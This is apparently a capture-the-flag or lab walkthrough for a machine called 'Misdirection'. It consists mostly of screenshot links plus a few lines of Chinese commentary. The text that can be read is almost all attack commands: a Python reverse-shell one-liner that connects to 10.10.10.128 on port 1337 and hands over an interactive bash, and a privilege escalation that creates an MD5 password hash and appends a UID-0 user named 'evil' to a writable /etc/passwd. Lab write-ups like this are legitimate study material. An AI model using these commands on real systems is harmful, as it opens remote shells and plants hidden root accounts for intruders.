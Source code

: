 # Misdirection

![image-20200620201738035](assets/Misdirection.assets/image-20200620201738035.png)



![image-20200620201922393](assets/Misdirection.assets/image-20200620201922393.png)



![image-20200620203206697](assets/Misdirection.assets/image-20200620203206697.png)





![image-20200620204041701](assets/Misdirection.assets/image-20200620204041701.png)



![image-20200620205831163](assets/Misdirection.assets/image-20200620205831163.png)

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.128",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![image-20200620210205666](assets/Misdirection.assets/image-20200620210205666.png)

![image-20200620210736685](assets/Misdirection.assets/image-20200620210736685.png)



![image-20200620211706511](assets/Misdirection.assets/image-20200620211706511.png)

passwd可写。

直接增加用户即可

首先先制作用户的hash

```bash
openssl passwd -1 -salt evil abcdef
```

![image-20200619115605888](assets/Misdirection.assets/image-20200619115605888.png)

`$1$evil$PJUrXHFg5Juh42jLCKQs10`

然后仿照passwd文件格式伪造用户信息

```bash
evil:$1$evil$PJUrXHFg5Juh42jLCKQs10:0:0::/root:/bin/bash
```

```bash
echo 'evil:$1$evil$PJUrXHFg5Juh42jLCKQs10:0:0::/root:/bin/bash' >> /etc/passwd
```

![image-20200620212243538](assets/Misdirection.assets/image-20200620212243538.png)

![image-20200620212534003](assets/Misdirection.assets/image-20200620212534003.png)